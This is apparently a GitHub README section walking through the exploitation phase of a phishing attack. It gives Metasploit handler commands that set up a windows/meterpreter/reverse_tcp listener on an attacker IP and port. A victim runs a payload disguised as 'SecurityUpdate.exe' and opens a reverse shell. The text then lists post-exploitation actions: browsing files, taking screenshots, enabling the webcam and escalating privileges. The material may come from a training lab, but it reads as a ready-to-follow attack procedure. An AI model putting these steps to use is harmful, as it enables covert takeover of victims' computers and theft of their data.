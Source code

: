 # Exploitation

## Objective:
Activate the payload to execute the attack and gain control over the target system.

## Steps for Exploitation

1. Prepare the Metasploit Framework

    Now that we’ve sent the phishing email and the target has clicked the malicious link, we need to activate the payload using **Metasploit**.

    - **Run the command**: `msfconsole` to start the Metasploit console.

    - Then, use the exploit handler by entering the following command:
```
use exploit/multi/handler
```
- This configures the Metasploit framework to handle incoming connections from the payload on the target system.

![image](https://github.com/user-attachments/assets/2b9f26c2-9ef3-47ae-87fa-c33ac937abcb)

2. Configure the Exploit Settings

    Configure Metasploit to match the parameters used when creating the payload:

- Set **PAYLOAD** to `windows/meterpreter/reverse_tcp`
- Set **LHOST** to the attacker's IP address (the system that the victim will connect to).
- Set **LPORT** to the port that the attacker's machine is listening on.
- **Run** the Exploit

### Command Example:

```
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.19.19.134
set LPORT 4444
run
```

This ensures the reverse shell connects back to the attacker’s system on the correct IP and port.

3. Victim Downloads the Malicious Payload

    The victim opens the phishing email, clicks the link, and downloads the **SecurityUpdate.exe** file.

![image](https://github.com/user-attachments/assets/727ac1fe-d2f3-4f0a-886b-39619320f277)

Once the victim opens the **SecurityUpdate.exe** file, the payload will execute.

![image](https://github.com/user-attachments/assets/a1f11d44-0b7f-47bf-b7c2-63e06be8b66f)

4. Payload Execution and Connection
After the victim runs the malicious executable, a **Meterpreter shell** will open, connecting back to the attacker’s system.

![image](https://github.com/user-attachments/assets/38168808-8813-4f6a-9327-de80528a6a59)

![image](https://github.com/user-attachments/assets/b5b94c08-9f92-4cf6-9e9a-575f3d13b081)

![image](https://github.com/user-attachments/assets/b01d20c0-13e1-4d1d-a0fb-fde0962935a3)

![image](https://github.com/user-attachments/assets/7d67db6a-c265-41e8-a02d-af983018a56f)

![image](https://github.com/user-attachments/assets/ef287ea3-238b-4122-ad24-e7674a4fa523)

The attacker now has full control over the victim's system via the **Meterpreter shell**.

![image](https://github.com/user-attachments/assets/870d4918-636e-49e4-b952-9171ace7c52c)

5. Full Control with Meterpreter

    The Meterpreter session provides the attacker with extensive control over the compromised system. The attacker can now run commands, gather information, and escalate privileges.

    Additional actions like browsing the file system, capturing screenshots, or even enabling the webcam can be done using Meterpreter.

6. Post-Exploitation

    The attacker can now explore the compromised system, gather sensitive data, or escalate privileges to gain higher access.




